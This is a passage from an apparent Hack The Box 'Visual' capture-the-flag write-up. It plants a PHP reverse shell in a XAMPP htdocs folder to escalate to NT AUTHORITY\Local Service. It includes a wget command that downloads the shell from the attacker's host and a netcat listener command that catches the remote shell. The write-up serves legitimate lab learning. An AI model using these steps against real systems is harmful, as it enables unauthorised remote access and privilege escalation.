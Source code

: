 This is the output we get, it seems like it runs under `NT AUTHORITY\Local Service`.

![Apache HTTP Server service info](/images/HTB-Visual/AppacheHTTPServer-info-1.png)

> "On Windows 10, the UPnP Device Host service is configured to execute without impersonation privileges as the user `NT AUTHORITY\LOCAL SERVICE`...". Basically we can achieve privilege escalation via this account. Read more about it [here](https://itm4n.github.io/localservice-privileges/).

The service runs under `NT AUTHORITY\Local Service` so we need to escalate to that account. Since we have access to the `xampp` directory we can plant a reverse shell there and access it through the web browser. I go to that directory and list its content.

> In PHP applications, the XAMPP folder serves as the root directory for hosting web files (such as HTML, PHP, CSS, JavaScript, images, etc.) and managing server configuration settings.

```
cd C:\Xampp\
ls
```
![xampp directory content](/images/HTB-Visual/xampp-content-1.png)

Notice the `htdocs` folder.

> In XAMPP, the `htdocs` directory serves as the default web server document root. This means that any files placed within the `htdocs` directory will be accessible through a web browser when the XAMPP server is running.

The application files are here as you can see. We can put a PHP reverse shell in the `htdocs` directory.

![xampp htdocs directory](/images/HTB-Visual/xampp-htdocs.png)

This is the [PHP reverse shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) I used. 

I then run `wget http://10.10.14.222:8000/revshell.php -o rev.php` to get it to the target.

![PHP reverse shell on the target](/images/HTB-Visual/php-reverse-shell-1.png)

Let's setup a netcat listener with 
```
nc -nvlp 8010
```

> Use the port number that you specified in the PHP reverse shell.

Go back to the browser and go to `http://<target IP address>/rev.php`, come back to your listener and you should have a shell with the user `nt authority\local service`.

![nt authority user shell on the target](/images/HTB-Visual/nt-authority-local-service.png)

Check your privileges and you notice that you lack the `ImpersonatePrivilege` needed to get administrative privileges.

Let's run `whoami /priv`.

![nt authority user privileges](/images/HTB-Visual/nt-authority-priv.png)
